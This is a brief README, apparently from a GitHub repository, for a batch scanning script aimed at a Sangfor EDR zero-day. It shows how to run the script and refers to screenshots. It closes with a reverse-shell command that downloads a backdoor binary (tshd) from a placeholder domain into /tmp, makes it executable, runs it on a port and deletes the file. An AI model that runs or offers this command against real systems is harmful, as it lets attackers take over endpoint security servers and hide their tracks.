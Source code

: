 "# 深信服EDR 0day批量检测脚本" 
命令
python3 EDR-scan.py EDR.txt
效果图如下
![](./2.png)
访问URL
![](./1.png)
反弹shell命令如下
curl http://域名/tshd -o /tmp/tshd;chmod 777 /tmp/tshd;/tmp/tshd 30015; rm /tmp/tshd